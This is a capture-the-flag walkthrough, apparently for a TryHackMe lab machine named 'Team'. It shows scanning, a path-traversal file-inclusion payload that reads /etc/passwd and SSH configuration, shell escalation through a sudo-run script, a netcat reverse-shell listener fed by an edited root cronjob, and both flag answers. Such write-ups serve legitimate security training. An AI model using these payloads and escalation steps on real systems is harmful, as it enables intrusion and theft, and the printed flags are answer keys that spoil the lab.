 # Team

* IP = 10.10.233.233

## Questions/Tasks:

* Starting with basic Nmap scan to find all open ports on the server:<br>
`nmap -sC -sV -v $IP`

* Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add \'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

* Since port 80 is open, search for any other directories with gobuster:<br>
`gobuster -u "http://IP/" -w common.txt`

* GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```
* FTP is open with no anonymous login permit😮‍💨.
* The webpage when opened in browser shows the *Apache Default page*:<br>
![Screenshot](./assets/2.png)
* Checking the source of the page, we find this line:<br>
![Screenshot](./assets/1.png)
* Edit the `/etc/hosts` file in your machine and add the line:<br>
```
10.10.233.233 team.thm
```
* Now visiting http://team.thm, we're brought to this page:<br>
![Screenshot](./assets/3.png)
* Start a second gobuster scan on http://team.thm :
* Second Scan results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/scripts (Status: 301)
/server-status (Status: 403)
```
* Inside *robots.txt* there's only one word: `dale`, maybe its an username.🤔🤔
* I was completely stuck at this stage, but seeing the hint I figured we need to add `dev.team.thm` to the same line in `/etc/hosts`: `10.10.233.233   dev.team.thm team.thm`
* Opening http://dev.team.thm in browser, we are brought here:<br>
![Screenshot](./assets/4.png)
* Following the hint, I supposed that it might be a Local file inclusion vulnerability, hence tried this payload:<br>
`http://dev.team.thm/script.php?page=./../../../etc/passwd`, since the main webpage remains in `/var/www/html/`, hence we need to traverse 3 times to get into root of filesystem.
![Screenshot](./assets/5.png)
* Thus we can confirm that the page has indeed LFI.
* Similarly we tried this out: `http://dev.team.thm/script.php?page=./../../../home/dale/user.txt`.
* And just like that we got the user flag!!🤗


1. user.txt

**Ans-THM{6Y0TXHz7c2d}**


* Now we need to find a way to get a shell in order to become root!!🫡
* Burp Suite made the job easy and found the list for us:<br>
![Screenshot](./assets/burp.png)
* Hence we visited: `http://dev.team.thm/script.php?page=./../../../etc/ssh/sshd_config` and got a ssh private key for `Dale`:<br>
![Screenshot](./assets/6.png)
* Copy the RSA Private Key to local machine, change permissions with `chmod 600 id_rsa`, then ssh into server with:
`ssh -i id_rsa dale@IP`<br>
![Screenshot](./assets/7.png)
* `sudo -l` gives the following output:<br>
![Screenshot](./assets/8.png)
* So, probably we need to escalate privileges to `Gyles` then to root.
* Carefully look at the **admin_checks** script, the error variable is directly executed in the script itself...so we can supply `/bin/bash` and become *gyles*
* Now run the script with `sudo` and supply `/bin/bash` when prompted for date:<br>
![Screenshot](./assets/9.png)
* Thus we can get a barebone shell, and we can elevate the shell with:`python3 -c 'import pty; pty.spawn("/bin/bash")'`
* The `.bash_history` of gyles has a strange file in /usr/local/bin:<br>
![Screenshot](./assets/10.png)
* The `admin` group in which gyles is a member has write, read and execute permissions:<br>
![Screenshot](./assets/11.png)<br>
* Edit the file like this:<br>
![Screenshot](./assets/12.png)
* In order to get a reverse shell with root privileges. (The above code snippet was taken from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey RevShell Cheat Sheet</a>)
* Set up a netcat listener on local machine with: `nc -lnvp 4444`
* The file will be automatically run by root as it is a *cronjob*.
* Thus we get a root shell connection back:<br>
![Screenshot](./assets/13.png)
* Find the root.txt there itself...

2. root.txt

**Ans-THM{fhqbznavfonq}**
